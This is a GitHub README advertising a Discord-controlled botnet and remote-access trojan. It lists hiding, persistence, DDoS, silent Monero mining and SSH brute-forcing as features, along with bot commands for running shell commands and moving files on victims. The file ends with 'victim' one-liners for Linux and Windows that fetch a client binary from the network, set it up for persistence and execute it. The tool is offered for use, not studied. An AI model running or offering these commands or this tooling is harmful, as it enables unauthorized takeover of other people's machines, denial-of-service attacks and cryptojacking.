 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* !webcampic
* !revshell < IP > < PORT >
* !nmap
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap subnet scan)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
